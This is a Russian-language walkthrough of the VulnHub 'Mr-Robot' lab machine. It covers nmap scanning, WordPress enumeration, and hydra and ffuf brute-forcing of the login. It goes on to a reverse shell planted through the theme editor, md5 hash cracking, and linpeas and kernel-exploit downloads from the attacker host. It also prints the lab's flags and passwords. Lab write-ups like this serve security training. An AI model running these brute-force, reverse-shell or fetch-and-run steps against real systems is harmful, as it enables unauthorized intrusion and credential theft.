





# VulnHub - Lin Intermediate - Mr-Robot_1

📅 Дата: 2025-07-22  
🧠 Сложность:  
💻 IP-адрес: 192.168.56.129  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=192.168.56.129 && nmap_ctf $ip
```

### nmap  
```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16:3b19:87c3:42ad:6634:c1c9:d0aa:fb97
|_SHA-1: ef0c:5fa5:931a:09a5:687c:a2c2:80c4:c792:07ce:f71b
|_http-title: Site doesn't have a title (text/html).
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
MAC Address: 08:00:27:06:5B:DB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.9 (97%), Linux 3.18 (93%), Android 4.1.1 (91%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (91%), Android 4.0 (91%), Android 5.1 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Tue Jul 22 09:54:03 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   1.09 ms 192.168.56.129
```


---

## 🕵️ Enumeration

### robots.txt

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Первый ключ по адресу `http://192.168.56.129/key-1-of-3.txt`
```
073403c8a58a1f80d943455fb30724b9
```

Загружаю себе `http://192.168.56.129/fsocity.dic`
```bash
wget http://192.168.56.129/fsocity.dic
```

Сортирую и фильтрую
```bash
sort fsocity.dic | uniq > fsocity_filtered.txt
```

### WordPress
Первичный фаззинг показал, что используется WordPress
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ ffuf -fc 404 -t 40 -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt -u http://$ip/FUZZ -ic -c     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.129/FUZZ
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 16ms]
blog                    [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 48ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 77ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 739ms]
video                   [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 1ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 839ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 862ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 847ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 860ms]
wp-content              [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 1ms]
admin                   [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 3ms]
audio                   [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 1ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 4ms]
wp-login                [Status: 200, Size: 2620, Words: 115, Lines: 53, Duration: 880ms]
css                     [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 1ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 3ms]
wp-includes             [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 2ms]
js                      [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 2ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 857ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 849ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 3ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 4ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 821ms]
%20                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 797ms]
wp-admin                [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 1ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 1ms]
0000                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 958ms]
IMAGE                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 855ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
KeithRankin%20          [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 952ms]
kaspersky%20            [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 884ms]
page01                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1518ms]
Cirque%20du%20soleil%20 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1578ms]
```

### wpscan
Поэтому использую wpscan
```bash
┌──(kali㉿0x2d-pentest)-[~/Downloads]
└─$ wpscan --url http://192.168.56.129/ -v        
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]Y
[i] Updating the Database ...
[i] File(s) Updated:
 |  metadata.json
[i] Update completed.

[+] URL: http://192.168.56.129/ [192.168.56.129]
[+] Started: Tue Jul 22 10:06:08 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.56.129/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.129/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://192.168.56.129/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.129/923a242.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.129/923a242.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.56.129/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://192.168.56.129/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 4.0
 | Style URL: http://192.168.56.129/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, straightforward typography is readable on a wide variety of screen sizes, and suitable for multiple languages. We designed it using a mobile-first approach, meaning your content takes center-stage, regardless of whether your visitors arrive by smartphone, tablet, laptop, or desktop computer.
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 | License: GNU General Public License v2 or later
 | License URI: http://www.gnu.org/licenses/gpl-2.0.html
 | Tags: black, blue, gray, pink, purple, white, yellow, dark, light, two-columns, left-sidebar, fixed-layout, responsive-layout, accessibility-ready, custom-background, custom-colors, custom-header, custom-menu, editor-style, featured-images, microformats, post-formats, rtl-language-support, sticky-post, threaded-comments, translation-ready
 | Text Domain: twentyfifteen
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.129/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:27 <===================================> (137 / 137) 100.00% Time: 00:00:27

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jul 22 10:06:54 2025
[+] Requests Done: 182
[+] Cached Requests: 6
[+] Data Sent: 44.786 KB
[+] Data Received: 13.958 MB
[+] Memory used: 281.422 MB
[+] Elapsed time: 00:00:46
```

Пробую сбрутить имя пользователя с помощью полученного словаря
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hydra -L ./fsocity_filtered.txt -p admin -t 40 192.168.56.129 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1:F=Invalid username" 

[80][http-post-form] host: 192.168.56.129   login: Elliot   password: admin
[80][http-post-form] host: 192.168.56.129   login: elliot   password: admin
[80][http-post-form] host: 192.168.56.129   login: ELLIOT   password: admin

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-22 11:04:17
```

Hydra прошла по словарю за 11 минут...  
Просто из любопытства проведу **benchmark** с помощью `ffuf` и фильтрации по размеру ответа  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fs 3608

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.129/wp-login.php
 :: Wordlist         : FUZZ: /home/kali/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits/fsocity_filtered.txt
 :: Header           : Referer: http://192.168.56.129/wp-login.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : Host: 192.168.56.129
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://192.168.56.129
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
 :: Data             : log=FUZZ&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 3608
________________________________________________

elliot                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1561ms]
Elliot                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1570ms]
ELLIOT                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1622ms]
:: Progress: [11451/11451] :: Job [1/1] :: 25 req/sec :: Duration: [0:07:12] :: Errors: 5 ::
```

### Вывод по бенчмарку
`ffuf` на 30% быстрее, чем `hydra` для этой задачи, но не поддерживает возобновление после сбоя/прерывания

Фаззинг пароля
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fc 200 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.129/wp-login.php
 :: Wordlist         : FUZZ: /home/kali/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits/fsocity_filtered.txt
 :: Header           : Priority: u=0, i
 :: Header           : Host: 192.168.56.129
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://192.168.56.129/wp-login.php
 :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://192.168.56.129
 :: Data             : log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

ER28-0652               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1680ms]
:: Progress: [11451/11451] :: Job [1/1] :: 58 req/sec :: Duration: [0:10:57] :: Errors: 13 ::
```

Креды `elliot:ER28-0652`


## 📂 Получение доступа

### WordPress Theme Editor
Перехожу в редактор тем и выбираю шаблон для сообщения об ошибках (например, когда запрашивается несуществующая страница)  


Вставляю в конец код реверс шелла от pentestmonkey  


Теперь иду в блог, например, на `http://192.168.56.129/blog/wubbalubbadubdub` и получаю реверс
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.129] 38634
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:23:26 up 16 min,  0 users,  load average: 0.20, 0.10, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

daemon@linux:/$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$ pwd
/
daemon@linux:/$
```

## ⚙️ Привилегии

Теперь нужно осмотреться
```bash
daemon@linux:/$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ cd /home/robot
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```

Есть пользователь `robot` и есть хеш его пароля в md5  
На всякий случай проверяю тип хеша
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hashid "c3fcd3d76192e4007dfb496cca67e13b"
Analyzing 'c3fcd3d76192e4007dfb496cca67e13b'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x
```

И пробую сбрутить с помощью `john` или `hashcat`  

### john
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ echo "robot:c3fcd3d76192e4007dfb496cca67e13b" > robot_hash.txt
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ john --format=raw-md5 robot_hash.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ john --show --format=raw-md5 robot_hash.txt      
robot:abcdefghijklmnopqrstuvwxyz
```

### hashcat
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ echo "c3fcd3d76192e4007dfb496cca67e13b" > robot_hash.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hashcat --help | grep MD5
      0 | MD5                                                        | Raw Hash

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hashcat -m 0 -a 0 robot_hash.txt /media/sf_Exchange/Dictionaries/rockyou.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hashcat -m 0 -a 0 robot_hash.txt --show                                     
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

Повышаюсь до `robot` и читаю второй ключ
```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

### linpeas
Скачиваю `linpeas.sh` и запускаю
```bash
robot@linux:~$ cd /tmp
robot@linux:/tmp$ sudo -l                                                                                          
[sudo] password for robot:                                                                                         
Sorry, try again.  
robot@linux:/tmp$ which wget
/usr/bin/wget
robot@linux:/tmp$ wget http://192.168.56.106:8888/linpeas.sh -O peas.sh
robot@linux:/tmp$ chmod +x peas.sh
robot@linux:/tmp$ ./peas.sh
```

Смотрю информацию
```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                
                               ╚═══════════════════╝                                                               
OS: Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
User & Groups: uid=1002(robot) gid=1002(robot) groups=1002(robot)
Hostname: linux
```

И есть с ходу уязвимость ядра `3.13.0-55-generic`
```bash
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════                                 
                              ╚════════════════════╝                                                               
╔══════════╣ Operative system
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits                  
Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.2 LTS
Release:        14.04
Codename:       trusty
```

Скачиваю эксплоит


И эксплоит не отрабатывает
```bash
robot@linux:/tmp$ wget http://192.168.56.106:8888/priv.c
robot@linux:/tmp$ gcc priv.c -o priv
robot@linux:/tmp$ ./priv
spawning threads
mount #1
mount #2
child threads done
exploit failed
robot@linux:/tmp$
```

Пока листал вывод `linpeas`, увидел ещё один 95% вектор `SUID`
```bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                 
                      ╚════════════════════════════════════╝                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                    
strace Not Found                                                                                                   
...
